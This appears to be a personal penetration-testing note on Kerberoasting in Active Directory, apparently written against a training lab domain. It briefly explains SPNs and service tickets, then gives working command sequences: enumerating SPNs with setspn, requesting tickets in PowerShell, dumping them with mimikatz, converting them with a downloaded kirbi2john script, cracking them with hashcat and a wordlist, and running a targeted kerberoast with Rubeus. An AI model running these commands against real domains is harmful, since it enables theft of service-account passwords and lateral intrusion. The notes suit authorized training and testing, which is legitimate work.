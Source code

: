 -- -
This vector is centered around Service Principal Names (SPN) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account. Any domain user can (theoretically) request a Kerberos ticket for said SPN as long as in the same domain or if allowed through a trust relationship w/ another domain. 

The Kerberos ticket itself doesn't grant us access to the Service Account, but the ticket is encrypted w/ the Service Account's NTLM Hash, so you can extract this and crack it to get the cleartext password of the Service Account, or run a PassTheHash attack with said hash.

*Note: Obtaining a TGS Ticket from Kerberos does not guarantee you a set of valid credentials as the ticket must be cracked. TGS tickets take longer to crack than say normal NTLM hashes, so if a strong password is used, you may not get a valid set of credentials.*

You can find the original talk that displayed this prominent vector to the world [here](https://www.youtube.com/watch?v=PUyhlN-E5MU)

#### Prereqs 
1. One of the following: 
	- Domain User Credentials 
	- Domain User NTLM Hash
	- A shell in the context of a domain user
	- A SYSTEM shell on domain joined computer
	- A Root shell on a domain joined computer
2. The IP/hostname of a DC we can query.
## Linux
### Impacket
[[GetUserSPNs]]
![[GetUserSPNs#^d1421f]]
[[Hashcat]]
![[Hashcat#^88073c]]
## Windows
#### PowerView
[[PowerView (depricated)|PowerView]]
![[PowerView (depricated)#^2c6ed0]]
#### "Manual" method
###### On windows box
```powershell
# Dump available SPNs to user you are logged in as
setspn.exe -Q */*

# Request TGs for specific user and dump to memory
# the ArgumentList value is derived from above output
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

# Request TGS for all SPNs avaialable
# will pull everything, including computer accounts so it's not very efficient
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

# Dump TGS(s) from memory w/ mimikatz
# should output to file and tell you it's location
mimikatz.exe
base64 /out:true # optional, may make it easier or harder to file transfer depending
kerberos::list /export
```
###### On Linux box
File transfer the export to you Linux box
```bash
# You can crack the kirbi file output if you did NOT use the base64 line above
# Otherwise, you need to get toe base64 blob to your cracking rig and do the following (commands are in bash). The following command will remove new lines and white spaces from the blob leaving a base64 encoded string representation of the .kirbi file.
echo "<base64 blob>" | tr -d \\n

# put string in "encoded_file", then use following line to decode the string
# and output to final .kirbi file
cat encoded_file | base64 -d > sqldev.kirbi

# Download this kirbi2john file:
wget https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py

# run it
python2.7 kirbi2john.py sqldev.kirbi

# format for hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat

# crack like normal
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlist/rockyou.txt
```

#### Targeted Kerberoast
The vector here is that we have access to an account that can create a fake SPN, we then just use that and another user we want to take control of to launch a kerberoast attack and get their credentials.
**Create Fake SPN**
![[PowerView (depricated)#^ec631e]]
**Kerberoast it**
For other examples, check [[Rubeus|here]]
```pwoershell
.\Rubeus.exe kerberoast /user:<username> /nowrap
```